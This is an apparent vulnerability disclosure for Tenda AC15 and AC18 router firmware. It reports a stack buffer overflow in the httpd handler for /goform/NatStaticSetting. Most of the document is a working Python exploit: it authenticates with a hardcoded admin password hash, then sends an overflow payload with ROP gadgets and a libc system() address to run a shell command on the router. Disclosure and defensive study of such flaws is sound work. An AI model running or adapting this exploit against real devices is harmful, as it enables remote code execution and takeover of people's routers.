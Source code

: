 Vendor of the products:　Tenda

Reported by: 　　　　　 [x.sunzh@gmail.com](mailto:x.sunzh@gmail.com)

Affected products:　　　AC15 V15.03.05.19_multi, AC18 V15.03.05.19_multi

# Overview

An issue was discovered on Tenda AC15 V15.03.05.19_multi and AC18 V15.03.05.19_multi device. There is a buffer overflow vulnerability in the router’s web server – httpd. While processing the **/goform/NatStaticSetting** page parameter for a post request, the value is directly used in a *sprintf* function and passed to a local variable placed on the stack, which can override the return address of the function. The attackers can construct a payload to carry out arbitrary code attacks.

# PoC

![img](./imgs/NatStaticSetting_poc.png)

# Exp

```python
import requests
from urllib import parse
from pwn import *

main_url = "http://127.0.0.1:80"

def login_success():
    global password
    url = main_url + "/login/Auth"
    s = requests.Session()
    s.verify = False
    headers = {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'}
    data = {"username": "admin", "password": "ce80adc6ed1ab2b7f2c85b5fdcd8babc"}
    data = parse.urlencode(data)

    response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
    password = response.cookies.get_dict().get("password")
    print(response)
    if password is None:
        login_success()
    else:
        print(password)

def poc():
    url = main_url + "/goform/NatStaticSetting"

    cmd = b'echo yab....'
    libc_base = 0x40202000
    system_offset = 0x0005a270
    system_addr = libc_base + system_offset
    gadget1 = libc_base + 0x00018298
    gadget2 = libc_base + 0x00040cb8
    
    print(hex(gadget1), hex(gadget2))
    headers = {'Cookie': 'password=' + password}
    data = b'op=no&page='+ b'A' * (244) + p32(gadget1) + b'A' * 16 + p32(gadget1) + p32(system_addr) + p32(gadget2) + cmd
    data = data.decode('latin1')
    print(len(data))
    response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
    print(response.text)


if __name__ == "__main__":
    login_success()
    poc()

```

# Vul Details

## Codes in httpd

![image-20220811211809890](./imgs/NatStaticSetting_code.png)

## Attack Effect

![image-20220811211809891](./imgs/NatStaticSetting_effect.png)